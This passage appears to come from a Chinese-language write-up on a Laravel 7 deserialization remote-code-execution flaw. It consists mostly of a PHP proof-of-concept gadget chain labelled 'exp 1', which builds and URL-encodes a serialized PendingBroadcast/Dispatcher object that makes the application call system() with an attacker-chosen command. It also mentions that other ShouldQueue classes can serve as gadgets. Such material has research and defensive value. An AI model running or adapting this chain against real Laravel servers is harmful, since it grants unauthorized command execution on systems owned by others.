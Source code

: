 反序列化成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013bb842decf0b751f.png)

然后利用其它的也可以 (把 laravel 7 所有的继承 ShouldQueue 接口的都列出来了)

exp 1

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc6
# @author: Ricky
*/

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Broadcasting `{`
    class BroadcastEvent `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
        protected $queueResolver;
        public function __construct($queueResolver) `{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace `{`
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Broadcasting\BroadcastEvent('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
`}`
```
